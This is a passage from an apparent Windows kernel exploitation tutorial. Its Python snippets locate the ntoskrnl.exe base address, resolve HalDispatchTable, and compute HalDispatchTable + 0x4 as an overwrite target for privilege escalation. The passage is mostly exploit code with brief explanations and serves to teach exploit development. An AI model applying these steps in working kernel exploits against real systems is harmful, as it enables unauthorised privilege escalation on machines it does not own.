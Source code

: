 ```python
        # When ntoskrnl.exe is found, return the value at the time of being found
        current_name = current_name.value

        # Print update to show address of ntoskrnl.exe
        print "[+] Found address of ntoskrnl.exe at: {0}".format(hex(base_address))

        # It assumed the information needed from the for loop has been found if the program has reached execution at this point.
        # Stopping the for loop to move on.
        break
 ```
 
This is a snippet of code that essentially will loop through the array where all of the base addresses have been exported to, and search for `ntoskrnl.exe` via `GetDeviceDriverBaseNameA()`. Once that has been found, the address will be stored.
 
LoadLibraryExA()
---
 ```python
# Beginning enumeration
kernel_handle = kernel32.LoadLibraryExA(
    current_name,                       # lpLibFileName (specifies the name of the module, in this case ntlkrnl.exe)
    None,                               # hFile (parameter must be null)
    0x00000001                          # dwFlags (DONT_RESOLVE_DLL_REFERENCES)
)

# Error handling if function fails
if not kernel_handle:
    print "[+] LoadLibraryExA() function failed!"
    sys.exit(-1)
```

In this snippet, `LoadLibraryExA()` receives the handle from `GetDeviceDriverBaseNameA()` (which is `ntoskrnl.exe` in this case). It then proceeds, in the snippet below, to pass the handle loaded into memory (which is still `ntoskrnl.exe`) to the function `GetProcAddress()`.

GetProcAddress()
---
```python
hal = kernel32.GetProcAddress(
    kernel_handle,                      # hModule (handle passed via LoadLibraryExA to ntoskrnl.exe)
    'HalDispatchTable'                  # lpProcName (name of value)
)

# Subtracting ntoskrnl base in user mode
hal -= kernel_handle

# Add base address of ntoskrnl in kernel mode
hal += base_address

# Recall earlier we were more interested in HAL + 0x4. Let's grab that address.
real_hal = hal + 0x4

# Print update with HAL and HAL + 0x4 location
print "[+] HAL location: {0}".format(hex(hal))
print "[+] HAL + 0x4 location: {0}".format(hex(real_hal))
```
